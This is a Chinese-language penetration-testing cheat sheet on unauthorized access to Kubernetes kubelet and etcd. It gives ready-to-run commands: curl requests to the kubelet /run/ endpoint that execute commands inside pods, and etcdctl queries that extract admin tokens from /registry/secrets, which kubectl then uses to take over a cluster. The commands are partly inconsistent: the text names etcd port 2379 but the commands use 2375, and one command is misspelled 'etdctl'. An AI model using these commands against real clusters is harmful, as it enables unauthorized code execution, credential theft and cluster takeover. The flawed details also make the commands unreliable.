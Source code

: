 **kubelet 未授权访问**
- 描述

    kubelet 是在 Node 上用于管理本机 Pod 的，kubectl 是用于管理集群的。kubectl 向集群下达指令，Node 上的 kubelet 收到指令后以此来管理本机 Pod。

    Kubelet 服务启动后会监听多个端口，用于接收 Kubernetes API Server 组件发送的请求
    - 10248 : Kubelet healthz 的服务端口，用于判断 Kubelet 组件的健康状态，已于 Kubernetes v1.16 版本后弃用，访问该端口默认需要认证授权
    - 10250 : Kubelet 的 HTTPS 服务，读写端口，提供 Kubernetes 基本资源运行状态， 访问该端口默认需要认证授权
    - 10255 : Kubelet 的 HTTP 服务，只读端口，提供只读形式的 Kubernetes 基本资源运行状态，该端口无需进行认证授权，默认为禁用
    - 4194 : cAdvisor 的 HTTP 服务端口，自 Kubernetes v1.10 版本开始，官方去除了 --cadvisor-port 参数配置，不再支持对 cAdvisor 的访问

    kubelet 对应的 API 端口默认在 10250，运行在集群中每台 Node 上，kubelet 的配置文件在 node 上的 `/var/lib/kubelet/config.yaml`

    配置文件中 authentication 选项用于设置 kubelet api 能否被匿名访问，authorization 选项用于设置 kubelet api 访问是否需要经过 Api server 进行授权, 如果把 authentication-anonymous-enabled 改为 true，authorization-mode 改为 AlwaysAllow，再使用命令 systemctl restart kubelet 重启 kubelet，那么就存在 kubelet 未授权访问

- POC | Payload | exp
    ```bash
    # 如果有 kubelet 未授权，可以用以下命令在 Pod 内执行命令

    curl https://node_ip:10250/pods
    curl -XPOST -k https://node_ip:10250/run/<namespace>/<PodName>/<containerName> -d "cmd=command"

    /pods
    /runningpods
    /metrics
    /spec
    /stats
    /stats/container
    /logs
    /run/
    /exec/
    /attach/
    /portForward/
    /containerLogs/
    ```

**etcd 未授权**
- 描述

    etcd 是 k8s 集群中的数据库组件，默认监听在 2379 端口. 如果 2379 存在未授权，那么就可以通过 etcd 查询集群内管理员的 token，然后用这个 token 访问 api server 接管集群。

    在启动 etcd 时，如果没有指定 `--client-cert-auth` 参数打开证书校验，并且没有通过iptables/防火墙等实施访问控制，etcd 的接口和数据就会直接暴露给外部黑客 "

    下载 https://github.com/etcd-io/etcd/releases/
    ```bash
    etcdctl --endpoints=https://etcd_ip:2375/ get / --prefix --keys-only
    # 查询管理员 token
    etcdctl --endpoints=https://etcd_ip:2375/ get / --prefix --keys-only | grep /secrets/
    # 在 etcd 里查询管理员的 token，然后使用该 token 配合 kubectl 指令接管集群
    etdctl --endpoints=https://etcd_ip:2375/ get /registry/secrets/default/admin-token-xxxxx
    # 拿到 token 以后，用 kubectl 接管集群
    kubectl --insecure-skip-tls-verify -s https://master_ip:6443/ --token="xxxxxx" get nodes
